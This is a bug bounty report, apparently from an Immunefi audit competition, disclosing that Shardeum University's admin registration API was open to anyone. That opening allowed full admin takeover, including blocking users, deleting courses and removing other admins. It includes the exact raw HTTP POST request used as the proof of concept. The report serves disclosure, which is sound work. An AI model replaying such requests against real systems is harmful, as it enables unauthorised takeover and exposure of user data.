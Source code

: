 # #35452 \[W\&A-High] Admin Panel Accessed

**Submitted on Sep 23rd 2024 at 09:52:08 UTC by @blocksmith0 for** [**Audit Comp | Shardeum: Ancillaries II**](https://immunefi.com/audit-competition/shardeum-ancillaries-ii-boost)

* **Report ID:** #35452
* **Report Type:** Websites and Applications
* **Report severity:** High
* **Target:** https://immunefi.com
* **Impacts:**
  * Taking state-modifying authenticated actions (with or without blockchain state interaction) on behalf of other users without any interaction by that user, such as: Changing registration information, Commenting, Voting, Making trades, Withdrawals, etc.

## Description

## Vulnerability Details

I was able to completely takeover university admin panel on \`dash.university.shardeum.org\` this gives me full access to block unblock almost 20K users, view their data I also have full access to all courses to delete them completely also I can delete other admin accounts as well.

## Proof of Concept

## Proof of Concept

The was possible because the following admin registration API endpoint was available which enabled me to register an admin account and then login to that admin account.

To register an admin account do a POST request to the following HTTP request with your email and password.

\`\`\` POST /api/admin/register HTTP/1.1 Host: api.university.shardeum.org Connection: close sec-ch-ua: "Not A(Brand";v="99", "Google Chrome";v="121", "Chromium";v="121" Accept: application/json, text/plain, _/_ sec-ch-ua-mobile: ?0 User-Agent: Mozilla/5.0 (X11; Linux x86\_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 sec-ch-ua-platform: "Linux" Origin: https://university.shardeum.org Sec-Fetch-Site: same-site Sec-Fetch-Mode: cors Sec-Fetch-Dest: empty Referer: https://university.shardeum.org/ Accept-Encoding: gzip, deflate Accept-Language: en-US,en;q=0.9 If-None-Match: W/"b49-ha6cnPGQKUWujk1808h938ZMeIo" Content-Length: 58 Content-Type: application/json

{"adminEmail":"\*\*\*","password":"teset456"}\` \`\`\` To confirm the PoC please check the admin I have registered with the email \`\*\*\*\` on \`administrators\` section

Please see the screenshots for more info.

